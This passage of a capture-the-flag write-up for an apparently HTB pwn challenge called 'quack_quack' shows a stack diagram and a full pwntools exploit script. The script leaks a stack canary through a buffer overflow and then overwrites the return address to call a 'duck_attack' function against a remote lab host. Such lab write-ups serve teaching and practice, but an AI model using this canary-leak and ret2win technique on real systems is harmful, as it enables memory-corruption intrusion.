 ```txt
[  .............  ] // $rbp-0x68
[  .............  ] // $rbp-0x70
[  .............  ] // $rbp-0x78
[      Buffer     ] // Start input
```

After we know the padding of 2nd input, then we can do **ret2win** attack to call `duck_attack` function and read the flag. So, here's my final exploit script.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF('./quack_quack', checksec=0)
context.binary = exe
context.log_level = "DEBUG"

# Start the process.
LOCAL = False
if LOCAL:
    io = exe.process()
else:
    io = remote('94.237.54.232', 39055)

# Prepare the payload for the first input.
payload = b"" # -----------------------< Start payload.
payload += b"A" * 32 # ----------------< Fill the 32 bytes buffer.
payload += b"B" * (89 - 32) # ---------< Overflow until 89 bytes.
payload += b"Quack Quack " # ----------< Pass the strstr condition (12 more bytes).

# Send the payload in the first input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Adjust the leaked canary output.
canary_position = io.recv(timeout=1).split()[2].rstrip(b',')
fixed_output = b'\\x00' + canary_position[-7:]
leaked_canary = u64(fixed_output.ljust(8, b'\\x00'))
log.info(f"Leaked stack canary is: {hex(leaked_canary)}")

# Prepare payload for the 2nd input.
win_addr = exe.symbols['duck_attack']

payload = b"" # -----------------------< Start payload.
payload += b"C"*88 # ------------------< Padding until Stack Canary.
payload += p64(leaked_canary) # -------< Leaked canary value.
payload += p64(0xdeadbeef) # ----------< Fake address for $RBP.
payload += p64(win_addr) # ------------< Ret2win to read the flag.

# Send the payload + canary in the second input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Print the flag.
flag = re.search(r'HTB{.*}', io.recvall(timeout=1).decode())
print(f"Flag --> {flag.group(0)}") if flag else print("Failed to get the flag!")

# Maintain current session.
io.interactive()
```
